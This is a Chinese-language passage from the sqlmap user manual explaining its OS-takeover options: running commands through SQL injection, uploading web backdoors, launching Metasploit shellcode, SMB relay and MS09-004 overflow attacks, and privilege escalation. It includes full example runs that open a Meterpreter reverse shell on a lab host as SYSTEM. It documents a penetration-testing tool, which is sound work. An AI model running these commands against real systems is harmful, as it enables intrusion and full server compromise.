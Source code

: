 ## 接管操作系统

### 运行任意操作系统命令

选项和开关：`--os-cmd` 和 `--os-shell`

当后端 DBMS（Database Management System，数据库管理系统）为 MySQL，PostgreSQL 或 Microsoft SQL Server，并且当前会话用户拥有对数据库特定功能和相关架构特性的利用权限时，sqlmap 能够在**数据库所在服务器的操作系统上运行任意的命令**。

在 MySQL 和 PostgreSQL 中，sqlmap 可以上传（通过前面描述的文件上传功能）一个包含两个用户自定义函数——分别为 `sys_exec()` 和 `sys_eval()` 的共享库（二进制文件），然后在数据库中创建出两个对应函数，并调用对应函数执行特定的命令，并允许用户选择是否打印出相关命令执行的结果。在 Microsoft SQL Server 中，sqlmap 会利用 `xp_cmdshell` 存储过程：如果该存储过程被关闭了（Microsoft SQL Server 的 2005 及以上版本默认关闭），sqlmap 则会将其重新打开；如果该存储过程不存在，sqlmap 则会重新创建它。

当用户请求标准输出，sqlmap 将使用任何可用的 SQL 注入技术（盲注、带内注入、报错型注入）去获取对应结果。相反，如果无需标准输出对应结果，sqlmap 则会使用堆叠查询注入（Stacked queries）技术执行相关的命令。

这些技术的相关详情可见白皮书[通过高级 SQL 注入，对操作系统进行完全控制](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

针对 PostgreSQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(post
gres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file sys
tem can only be deleted manually
```

sqlmap 还支持模拟 shell 输入，你可以输入任意命令以执行。对应的选项是 `--os-shell`，并且和 `--sql-shell` 一样，具备 TAB 补全和记录历史命令的功能。

如果堆叠查询没有被 Web 应用（例如：PHP 或 ASP 且后端 DBMS 为 MySQL）识别出来，并且 DBMS 为 MySQL，假如后端 DBMS 和 Web 服务器在同一台服务器上，则仍可以通过利用 `SELECT` 语句中的 `INTO OUTFILE`，在 Web 服务器根目录中的可写目录中创建 Web 后门，从而执行命令。sqlmap 支持上述功能并允许用户提供一个逗号分隔、用于指定根目录子目录的列表，从而尝试上传 Web 文件传输器和后续的 Web 后门。sqlmap 有以下几种语言的 Web 文件传输器和后门：

* ASP
* ASP.NET
* JSP
* PHP

###  有状态带外连接：Meterpreter & friends

开关和选项：`--os-pwn`，`--os-smbrelay`，`--os-bof`，`--priv-esc`，`--msf-path` 和 `--tmp-path`

当后端 DBMS 为 MySQL，PostgreSQL 或 Microsoft SQL Server 时，并且当前会话用户拥有对数据库特定功能和架构缺陷的利用权限时，sqlmap 能够在**攻击者机器与数据库服务器之间建立起有状态带外 TCP 连接**。根据用户的选择，该连接可以是交互式命令行、Meterpreter 会话、或者图形用户界面（VNC）会话。

sqlmap 依赖 Metasploit 创建 shellcode，并实现了四种不同的技术在数据库服务器上执行它。这些技术分别是：

* 通过 sqlmap 的用户自定义函数 `sys_bineval()` 在数据库**内存中执行 Metasploit shellcode**。MySQL 和 PostgreSQL 支持该技术，通过开关 `--os-pwn` 启用。
* 通过 sqlmap 的用户自定义函数 `sys_exec()` 向 MySQL 和 PostgreSQL 上传一个 Metasploit **独立 payload 传输器**并执行，对于 Microsoft SQL Server 则是使用 `xp_cmdshell()` 函数，通过开关 `--os-pwn` 启用。
* 通过进行从数据库服务器到攻击者机器（由 Metasploit `smb_relay` 服务监听）之间的 UNC 路径请求的 **SMB 反射攻击**（[MS08-068](http://www.microsoft.com/technet/security/Bulletin/MS08-068.mspx)）来执行 Metasploit shellcode。当 sqlmap 运行于具有高权限（`uid=0`）的 Linux/Unix 上，且目标 DBMS 以 Windows 管理员身份运行时支持该技术，通过开关 `--os-smbrelay` 启用。
* 通过利用 **Microsoft SQL Server 2000 和 2005 的 `sp_replwritetovarbin` 存储过程堆缓冲区溢出**（[MS09-004](http://www.microsoft.com/technet/security/bulletin/ms09-004.mspx)）在数据库内存中执行 Metasploit shellcode。sqlmap 使用自己的 exploit，自动绕过 DEP 内存保护来触发漏洞，但它依赖 Metasploit 生成 shellcode，以便在成功利用时执行，通过开关 `--os-bof` 启用。

相关的技术详情可见于白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)和幻灯片[将控制由数据库层面拓展到操作系统](http://www.slideshare.net/inquis/expanding-the-control-over-the-operating-system-from-the-database)。

针对 MySQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\
id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database und
erlying operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
> 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on 
all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
> 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
> 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, p
lease wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|


    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD => windows/meterpreter/reverse_tcp
EXITFUNC => thread
LPORT => 60641
LHOST => 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_b
ineval', please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -> 192.168.136.129:1689) a
t Mon Apr 11 hh:mm:52 +0100 2011

meterpreter > Loading extension espia...success.
meterpreter > Loading extension incognito...success.
meterpreter > [-] The 'priv' extension has already been loaded.
meterpreter > Loading extension sniffer...success.
meterpreter > System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter > Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter > exit

[*] Meterpreter session 1 closed.  Reason: User exit
```

默认情况下，MySQL 在 Windows 上以 `SYSTEM` 身份运行，然而 PostgreSQL 在 Windows 和 Linux 上均以低权限用户 `postgres` 运行。Microsoft SQL Server 2000 默认以 `SYSTEM` 身份运行，而 Microsoft SQL 2005 和 2008 大部分情况下以 `NETWORK SERVICE` 身份运行，有时候以 `LOCAL SERVICE` 身份运行。

使用 sqlmap 的 `--priv-esc` 开关，可以通过 Metasploit `getsystem` 命令进行**数据库进程用户提权**，该命令使用了包括 [kitrap0d](http://archives.neohapsis.com/archives/fulldisclosure/2010-01/0346.html) 在内的各种技术（[MS10-015](http://www.microsoft.com/technet/security/bulletin/ms10-015.mspx)）。

